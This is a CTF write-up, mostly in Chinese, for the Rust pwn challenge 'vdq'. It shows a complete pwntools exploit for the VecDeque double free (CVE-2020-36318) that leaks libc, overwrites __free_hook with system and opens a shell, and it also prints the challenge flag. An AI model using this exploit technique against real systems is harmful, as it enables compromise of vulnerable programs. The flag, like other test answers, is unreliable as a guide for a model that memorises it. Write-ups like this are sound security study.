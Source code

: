 # Pwn | vdq (2 solves)

## Description

Just a rust program

[Attachments](./to_player/)

## Solution

[CVE-2020-36318](https://www.cvedetails.com/cve/CVE-2020-36318/): Rust 1.48.0 VecDeque::make_contiguous() 存在double free漏洞。[最小demo](https://github.com/rust-lang/rust/issues/79808)

逆向得到关键数据结构如下

```rust
struct Note {
    idx: Option<usize>, // + 0x00 Option/None, real usize
    msg: Vec<u8>,       // + 0x10 ptr cap len
}                       // + 0x28
```

利用思路：double free后利用Vec结构体中的ptr指针改`__free_hook`到`system`

```python
#!/usr/bin/python3

from pwn import *
context.arch='amd64'

p=remote('127.0.0.1',9999)

pay = '''[
    "Add", "Add", "Add", "Remove", "Remove", "Remove",
    "Add", "Add", "Remove", "Remove",
    "Add", "Add", "Remove", "Remove",
    "Add", "Add", "Add", "Add", "Remove", "Remove", "Remove", "Remove",

    "Add", "Add", "Add", "Add", "Add", "Add", "Add",
    "Remove", "View", "Remove", "Remove", "Remove", "Remove",
    "Archive", "Remove",
    "View",
    "Append",
    "Archive",
    "Append",
    "Add"
]
$'''

p.sendlineafter('!\n',pay)

for i in range(16-1):
    p.sendlineafter(': \n','')

p.sendlineafter(': \n','1'*0x410)
p.sendlineafter(': \n','')
p.sendlineafter(': \n','')

[p.recvuntil('Cached notes:\n') for i in range(2)]
[p.recvuntil(' -> ') for i in range(6)]

leak=0
for i in range(8):
    leak_byte=int(p.recvn(2),0x10)
    leak+=leak_byte<<(i*8)
base=leak-(0x7f57fd2b3ca0-0x7f57fcec8000)
p.success('base:'+hex(base))
__free_hook=base+0x7ff2888cb8e8-0x7ff2884de000
p.success('__free_hook:'+hex(__free_hook))
system=base+0x7ffff7617420-0x7ffff75c8000
p.success('system:'+hex(system))

p.sendlineafter(': \n',flat([0,0,__free_hook-0xa,0x3030303030303030]))
p.sendlineafter(': \n',p64(system))
p.sendlineafter(': \n','/bin/sh\0')
p.interactive()
```

## Flag

`HFCTF{Congrats!_You_are_really_a_master_of_Rust_v3dzPDa5isyoQCZEYG2OAnuLhlMXTjeHp1WtrBk80wqbJS7x}`

## Side Note

- vdq是VecDeque的缩写
- Rust [CVE-2020-36318](https://www.cvedetails.com/cve/CVE-2020-36318/) 利用的赛题首见于WMCTF2021中[M4tsuri师傅](https://github.com/M4tsuri)所设计的赛题`RuScheduler`
，随后在[Hack.lu CTF 2021](https://www.anquanke.com/post/id/258083#h3-2)也出现过。本题完全由WMCTF2021-RuScheduler改编而来，向原作者致敬。
- 本题二进制对应的[源代码](./source/src/main.rs)